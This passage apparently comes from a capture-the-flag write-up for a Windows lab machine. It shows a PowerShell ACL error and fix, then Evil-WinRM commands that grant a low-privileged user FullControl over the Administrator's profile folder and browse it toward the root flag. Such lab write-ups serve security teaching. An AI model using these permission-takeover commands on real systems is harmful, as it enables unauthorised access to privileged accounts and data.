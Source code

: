 ```text
Cannot convert argument "1", with value: "Full Control", for "FileSystemAccessRule" to type "System.Security.AccessControl.FileSystemRights": "Cannot convert value "Full Control" to type "System.Security.AccessControl.FileSystemRights". Error: "Unable to match the identifier name Full Control to a valid enumerator name. Specify one of the following enumerator names and try again:
ListDirectory, ReadData, WriteData, CreateFiles, CreateDirectories, AppendData, ReadExtendedAttributes, WriteExtendedAttributes, Traverse, ExecuteFile, DeleteSubdirectoriesAndFiles, ReadAttributes, WriteAttributes, Write, Delete, ReadPermissions, Read, ReadAndExecute, Modify, ChangePermissions, TakeOwnership, Synchronize, FullControl""
At line:1 char:12
+ $aclrule = New-Object System.Security.AccessControl.FileSystemAccessR ...
+            ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectCommand
```

Make sure not to have any spaces between words in your command!

### Root.txt

```text
*Evil-WinRM* PS C:\> $aclperms = $user, "FullControl", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\> $acl.AddAccessRule($aclrule)
*Evil-WinRM* PS C:\> Set-Acl -Path $folder -AclObject $acl
*Evil-WinRM* PS C:\> Get-Acl $folder | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         MEGACORP\Administrator Allow  FullControl
         MEGACORP\jorden Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-3167813660-1240564177-918740779-3110)
*Evil-WinRM* PS C:\> cd C:\Users\Administrator
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/9/2020   3:18 AM                .vscode
d-r---         1/9/2020   2:45 PM                Contacts
d-r---         1/9/2020   4:43 PM                Desktop
d-r---         1/9/2020   4:35 PM                Documents
d-r---         1/9/2020   2:45 PM                Downloads
d-r---         1/9/2020   2:45 PM                Favorites
d-r---         1/9/2020   2:45 PM                Links
d-r---         1/9/2020   2:45 PM                Music
d-r---         1/9/2020   2:45 PM                Pictures
d-r---         1/9/2020   2:45 PM                Saved Games
d-r---         1/9/2020   2:45 PM                Searches
d-r---         1/9/2020   2:45 PM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
```